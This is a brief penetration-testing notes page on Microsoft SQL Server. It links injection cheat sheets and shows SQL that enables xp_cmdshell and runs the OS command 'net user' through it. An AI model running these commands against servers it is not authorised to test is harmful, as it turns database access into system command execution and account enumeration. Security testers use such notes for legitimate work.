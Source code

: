 ```yaml
---
tags: [mssql,windows]
---
```

# MS SQL Server

- [Pen test and hack microsoft sql server (mssql)](http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/)
- [MSSQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [MSSQL Practical Injection Cheat Sheet](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

## Enable xp_cmdshell on MS SQL Server 2005+

```sql
-- To allow advanced options to be changed.
EXEC sp_configure 'show advanced options', 1;
GO
-- To update the currently configured value for advanced options.
RECONFIGURE;
GO
-- To enable the feature.
EXEC sp_configure 'xp_cmdshell', 1;
GO
-- To update the currently configured value for this feature.
RECONFIGURE;
GO
```

https://docs.microsoft.com/fr-fr/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-2017

Then execute code:

```sql
EXEC master..xp_cmdshell 'net user';
```

PS: It is enabled by default for MS SQL Server 2000
